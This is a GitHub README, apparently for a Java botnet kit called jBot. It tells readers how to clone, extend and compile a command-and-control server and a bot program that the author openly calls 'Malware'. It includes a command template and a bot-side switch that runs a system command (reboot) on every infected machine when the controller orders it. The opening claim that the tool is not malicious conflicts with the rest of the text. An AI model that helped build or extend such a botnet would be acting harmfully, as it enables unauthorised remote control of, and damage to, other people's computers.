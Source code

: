 *is jBot Malicious? No. jBot is an implementation of a Botnet in Java that was designed for developers to create their own botnets, as botnets are the future of large-scale computing, botnets are used widely across the world for many different things, and are used by some of your favorite companies.*
# jBot
jBot is the future of Java Botnet Development, the developed software allows java developers to create their own botnet, by adding commands, and more functionality to the initial botnet, as it was developed with ease of development in mind for less 'inclined' developers (No Offence).

## Get Started >
Begin by cloning/downloading this GitHub Repository, this will give you access to the Botnet Malware (Bot), and the Botnet Command and Control (CNC) Servers/Software.

    $ git clone https://github.com/vecnathewhisperd/jBot.git

You can then process the projects into your code editor, and begin adding some custom commands and functionality to the botnet, as seen below.

### Adding Custom Commands and Functionality >
jBot uses something called Reflections, this allows the (CNC) software to dynamically find commands you've added to the project, so there is literally one 1 file/class that needs to be made and modified for you to add a custom command to the initial CNC Software, however you will need to add functionality for the actual bots (If your command is sending data to the bots), because, if you don't, the bots won't know what to do.

Start by Creating a Class & Implementing the interface [JBotCommand.java](https://github.com/vecnathewhisperd/jBot/blob/main/jBot%20-%20Command%20and%20Control/src/main/java/me/vecnathewhisperd/jbot/command_manager/JBotCommand.java). 
**MAKE SURE TO LOCATE YOUR NEW COMMAND CLASS INTO THE FOLLOWING PROJECT PACKAGE/DIRECTORY:** `me.aaronakhtar.jbot.command_manager.commands`
Example Command Class:

```java
package me.aaronakhtar.jbot.command_manager.commands;  
  
import me.aaronakhtar.jbot.command_manager.JBotCommand;  
import me.aaronakhtar.jbot.threads.handlers.ClientHandler;  
  
import java.io.BufferedReader;  
import java.io.BufferedWriter;  
  
public class RandomCommand implements JBotCommand {  
  
    @Override  
  public String getCommand() {  
        return "myCommand";  
  }  
  
    @Override  
  public String getDescription() {  
        return "use this command to send a virtual slap to all bots.";  
  }  
  
    @Override  
  public boolean isAdminCommand() {  
        return false;  
  }  
  
    @Override  
  public void doAction(String[] args, ClientHandler client, BufferedWriter out, BufferedReader in) throws Exception {  
        // do something here when CNC-CLIENT executes command.  
  }  
}
```
If your command has **NO BOT-FUNCTIONALITY**, then, congrats, you've made your first CNC Command.
Whenever a CNC-CLIENT executes your command, whatever is in `doAction(...)` will be executed.

### Integrating your new command with your Bot (Malware) >
Because of the ease-of-usage concept I want to go by, I decided to make the Malware simple, and not over complicated at all, in order to integrate your new command, simply **make sure you add the following code into your Command Class `doAction(...)` function in the CNC Software:  `Utilities.executeCommandToNetwork("command here");`**

In your Malware [Main.java](https://github.com/vecnathewhisperd/jBot/blob/main/jBot%20-%20Malware%20Bot/src/main/java/me/vecnathewhisperd/jbot/Main.java) class, simply modify the switch-statement to integrate your new command, and provide some functionality, below is an example implementation:
```java
switch (commandArgs[0].toLowerCase(Locale.ROOT)){  
    // example  
  case "ping":{  
     System.out.println("pong");  
     break;  
  }  
  
  case "myCommand":{  
     Runtime.getRuntime().exec("reboot");  
     break;  
  }  
}
```
As you can see, we are executing the `reboot` command in all the bots on our network once receiving the new command we just added to our CNC.


## Compiling the Software >
Once you've modified your version of jBot, you can compile it with Git Bash using the following commands:
*Prerequisites*:
```
	- Apache Maven (Installation Tutorial > https://www.youtube.com/watch?v=km3tLti4TCM)
```
*Step 1*: Go into your CNC Project Folder (The folder with `pom.xml` in it) and execute the following command:
```
$ mvn clean package
```
or
```
mvn package
```
*Step 2*: Go into your Malware (Bot) Project Folder (The folder with `pom.xml` in it) and execute the following command:
```
$ mvn clean package
```
or
```
mvn package
```

**Ladies and Gentlemen**, that is how you create a damn Java Botnet.

# Credits:
Me.
https://github.com/vecnathewhisperd
